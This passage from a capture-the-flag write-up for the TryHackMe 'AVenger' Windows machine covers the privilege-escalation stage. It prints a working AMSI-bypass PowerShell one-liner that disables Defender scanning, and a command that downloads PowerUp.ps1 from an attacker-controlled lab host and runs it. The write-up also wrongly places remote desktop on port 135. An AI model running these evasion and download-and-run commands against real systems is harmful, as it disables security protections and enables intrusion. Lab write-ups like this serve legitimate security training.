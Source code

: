 To further enumerate the target on how to bypass the UAC or find other ways to escalate privileges, we want to make use of `PowerUp.ps1`. Since the target is still under AV protection, we try to bypass it. Especially the Antimalware Scan Interface (AMSI).

Now, I should use the PowerUp.ps1 because the target machine has the windows defender activated. Gotta bypass that pesky Antimalware Scan Interface (AMSI) because it's blocking file downloads.
> The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.
> 

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/explicacion.png)

[AMSI Bypass Methods](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/?utm_source=gitbook&utm_medium=iframely)

[](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

For that i’ll use “**[Fabian Mosch](https://twitter.com/ShitSecure)** used an old AMSI bypass of **[Matt Graeber](https://twitter.com/mattifestation)** to prove that if base64 encoding is used on strings (AmsiUtils & amsiInitFailed) that trigger AMSI and decoded at runtime could be used as an evasion defeating the signatures of Microsoft. This technique prevents AMSI scanning capability for the current process by setting the “amsiInitFailed” flag.”

```bash
1) [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

2) (New-Object System.Net.Webclient).DownloadString('http://10.2.87.109/PowerUp.ps1') > PowerUp.ps1

3) . .\Powerup.ps1

4) Invoke-AllChecks

```

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/contrase%C3%B1a.png)

Got it, identified that Hugo is rocking the admin privileges. According to the write-up I checked out, the easiest route is firing up Remmina with the user and password to access via 135/tcp - where the remote desktop action is going down.

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/final1.png)

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/final2.png)

![alt text](https://raw.githubusercontent.com/FabV05/files/main/AVenger/final3.png)

## Conclusion

The AVenger(Thm) machine presented a challenging scenario with multiple services and applications running on different ports. The initial reconnaissance using Nmap revealed a Windows Server 2019 with various open ports, including HTTP, HTTPS, MSRPC, NetBIOS, and MySQL. The web server on port 80 exhibited interesting directories like 'applications,' 'dashboard,' and 'gift.'
